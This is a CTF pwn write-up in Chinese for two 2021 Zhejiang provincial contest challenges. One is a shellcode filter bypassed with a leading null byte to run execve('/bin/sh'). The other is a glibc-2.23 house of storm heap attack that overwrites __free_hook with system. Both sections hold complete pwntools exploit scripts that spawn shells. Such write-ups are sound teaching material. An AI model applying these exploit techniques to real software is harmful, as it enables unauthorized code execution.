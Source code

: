 ```yaml
---
layout:     post
title:      浙江2021省赛
subtitle:   pwn wp
date:       2021-10-24
author:     X1ng
header-img: 省赛.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


开始比赛前发现IDA打不开了。。。。难度不大，但是学到了新知识，，感谢 **@Alter**赛后科普house of strom

太菜了太菜了

### sxmz

逻辑很简单，输入shellcode，通过特定检测后直接执行shellcode，输入的字节为`\n`会填充对应位置内存为`\x00`，检测字符的时候遇到`\x00`结束检查，让shellocde的首字节为`\x00`绕过检查，首字节为`\x00`的汇编语句大多是形如`add	BYTE PTR [esi], al`这样的，查看寄存器确保对应寄存器所指向的地址可写，之后写shellcode调用`execve("/bin/sh",0,0)`即可

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='i386'

local=0
binary_name='sx'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51501)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

ru('少侠，请问尊姓大名：')

text='''
add	BYTE PTR [esi], al

mov esi,eax

xor edx,edx

xor ecx,ecx

mov eax,11

mov ebx,esi

add ebx,0x14

int 0x80

'''
opcode=asm(text)
print(opcode)
sl(opcode+b'/bin/sh')

ia()
```



### LargeRoom2

glibc-2.23下的house of strom：核心思想在于将个目标地址作为fake_chunk，通过unsorted_bin attack将fake_chunk放到unsorted_bin列表中，利用large_bin attack将fake_chunk的size位字节改为`\x55`（堆地址的最高位一般为`\x55`或`\x56`），申请`0x50`大小的chunk就能申请到目标地址，实现任意地址写

这题在edit的时候存在off-by-null漏洞，并且有个函数直接申请0x50大小的chunk，构造两个大chunk分别放在large_bin和unsorted_bin，unsorted_bin中的chunk要比large_bin中的略微大一点，但是要保证两者在large_bin中存放在同一index下，然后覆盖unsorted_bin的bk和large_bin的bk、bk_nextsize，再申请0x50即可任意地址写

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='LargeRoom2'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51200)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice :',str(num))

def add(sz):
	cho(1)
	sla('Size:',str(sz))

def edit(idx, val):
	cho(4)
	sla('The id of room:',str(idx))
	sla('New Content:',val)

def show(idx):
	cho(2)
	sla('The id of room:',str(idx))

def delete(idx):
	cho(3)
	sla('The id of room:',str(idx))

def lea(val):
	cho(5)
	sla('Your name:',val)


add(0x3f8)
add(0x418)#1 overlap

add(0x3f8)
add(0x3f0)
delete(0)
edit(1,b'a'*0x410+p64(0x420+0x400))
delete(2)
add(0x3f8)
add(0x900)

show(1)
ru('\n')
libcbase=leak_address()-0x3c5068
print('[+]libcbase: '+hex(libcbase))
system=libc.sym['system']+libcbase
print('[+]system: '+hex(system))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))

add(0x810)

add(0x508)#5

add(0x408)#6 overlap

add(0x3f8)
add(0x3f0)
delete(5)
edit(6,b'b'*0x400+p64(0x510+0x410))

delete(7)
add(0x508)
add(0xa000)
delete(4)

edit(5,'/bin/sh')
fake_chunk=free_hook-0x10
edit(1,p64(0)+p64(fake_chunk))
edit(6,p64(0)+p64(fake_chunk+8)+p64(0)+p64(fake_chunk-0x18-5))
lea(p64(system))
delete(5)



ia()
```







